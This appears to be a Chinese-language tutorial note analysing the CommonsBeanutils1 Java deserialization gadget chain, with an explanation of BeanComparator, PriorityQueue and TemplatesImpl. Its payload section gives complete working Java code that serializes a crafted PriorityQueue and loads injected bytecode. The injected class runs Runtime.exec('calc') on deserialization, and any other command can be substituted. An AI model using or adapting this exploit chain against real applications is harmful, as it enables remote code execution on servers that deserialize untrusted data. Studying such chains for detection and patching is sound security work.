

## 环境搭建：

```xml
<dependency>
    <groupId>commons-beanutils</groupId>
    <artifactId>commons-beanutils</artifactId>
    <version>1.9.2</version>
</dependency>
```

##  分析

补充知识点：

CC链用到的Commons-Collections是对集合的封装和补充，CB链的commons-beanutils是应用于javabean的工具。

什么是JavaBean？https://www.liaoxuefeng.com/wiki/1252599548343744/1260474416351680

>1.有一个public的无参数构造函数。
>2.属性可以透过get、set、is（可替代get，用在布尔型属性上）方法或遵循特定命名规则的其他方法访问。
>3.可序列化

而commons-beanutils中提供了一个静态方法 PropertyUtils.getProperty ，让使用者可以直接调用任 意JavaBean的getter方法：


如果我们`bean=new User()`，name为`username`属性,这个方法就是调用`User`类下`username`属性的getter方法


我们在CC2链中用到`PriorityQueue`这个类，CB1链也是一样的，触发点就是调用`comparator.compare`方法。

CC2中我们用到了`org.apache.commons.collections4.comparators.TransformingComparator`

CB1我们需要用到`org.apache.commons.beanutils.BeanComparator`

直接看它的`compare`方法


调用`PropertyUtils.getProperty`，这样我们可以任意调用某个`JavaBean`的getter方法

在`TemplatesImpl`中，触发恶意链的POP：



这个可以从`getOutputProperties()`开始或者`newTransformer()`开始

所以当我们`this.property`设置为`outputProperties`（第一个o小写）,传进来的`o1`和`o2`设置为`TemplatesImpl`，这样就可以直接触发了，加载恶意字节码。

##  payload

```java
package cc.cb;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassPool;
import javassist.CtClass;
import org.apache.commons.beanutils.BeanComparator;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.PriorityQueue;

public class payload {
    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }
    public static void main(String[] args) throws Exception {
        ClassPool pool=ClassPool.getDefault();
        CtClass ctClass=pool.get(test.class.getName());
        TemplatesImpl templates = new TemplatesImpl();
        setFieldValue(templates, "_bytecodes", new byte[][]{ctClass.toBytecode()});
        setFieldValue(templates, "_name", "z3eyond");
        setFieldValue(templates, "_tfactory", new TransformerFactoryImpl());
        BeanComparator beanComparator=new BeanComparator("outputProperties");
        PriorityQueue priorityQueue=new PriorityQueue(2,beanComparator);
        setFieldValue(priorityQueue,"queue",new Object[]{templates,templates});
        setFieldValue(priorityQueue,"size",2);

        ByteArrayOutputStream baos=new ByteArrayOutputStream();
        ObjectOutputStream oos=new ObjectOutputStream(baos);
        oos.writeObject(priorityQueue);
        ByteArrayInputStream bois=new ByteArrayInputStream(baos.toByteArray());
        ObjectInputStream ois=new ObjectInputStream(bois);
        Object o=ois.readObject();
    }
}

```

test类：

```java
package cc.cb;

import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;


public class  test extends AbstractTranslet {
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {}

    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {}

    public test() throws Exception {
        super();
        Runtime.getRuntime().exec("calc");
        System.out.println(123);
    }
}
```

